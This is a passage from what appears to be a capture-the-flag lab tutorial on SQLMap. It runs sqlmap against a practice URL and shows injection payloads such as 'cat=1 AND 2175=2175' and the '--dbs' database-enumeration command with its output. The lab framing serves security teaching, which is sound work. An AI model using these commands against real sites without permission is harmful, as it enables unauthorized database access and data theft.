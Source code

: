 ```bash 
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

The results in the above terminal show us that different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind SQL injection, the SQL query is modified, and a boolean expression (that is always true, e.g., `1=1`) is included with the query to extract the information. Whereas in the error-based SQL injection, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other SQL injection techniques can also be employed to exploit a database.

The results from the command we executed for our target `http://sqlmaptesting.thm/search/cat=1` tell us that different types of SQL injection are possible on this URL. Let's use SQLMap's flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag `--dbs`. Let's try this flag out with our vulnerable URL:

```bash 
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

After running the above command, we got two database names. Select the `users` database and fetch the tables inside of it. We will define the database after the flag `-D` and use the `--tables` flag at the end to extract all the table names.
